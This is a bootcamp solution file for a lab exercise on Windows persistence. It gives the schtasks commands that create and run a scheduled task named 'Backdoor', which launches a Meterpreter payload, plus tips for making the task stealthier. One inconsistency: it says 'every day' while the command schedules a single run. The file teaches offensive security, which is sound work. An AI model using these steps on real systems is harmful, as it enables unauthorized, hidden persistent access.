


## Solution File: Windows Persistence

In this activity, you established persistence on the machine to ensure your SYSTEM access. You created a scheduled task that executes a custom Meterpreter payload.

### Instructions

You will work off your Meterpreter session on the Window10 machine. If you do not have an active session on the WIN10 machine, refer to prior activities to obtain a Meterpreter shell.

1. In your Meterpreter session, drop into a `shell` session.

     - `shell`

2. Create a scheduled task that will execute your payload every day at midnight.  

     - `schtasks /create /f /tn Backdoor /SC ONCE /ST 00:00 /TR "C:\shell.exe"`

	 

3. Test your scheduled task.

     - `schtasks /run /tn Backdoor`

	 

4. How could you improve this technique to make it more stealthy?

     - Better task name

     - Execute a better-named payload

     - Schedule the task only to run on certain events, such as logon

---

&copy; 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.

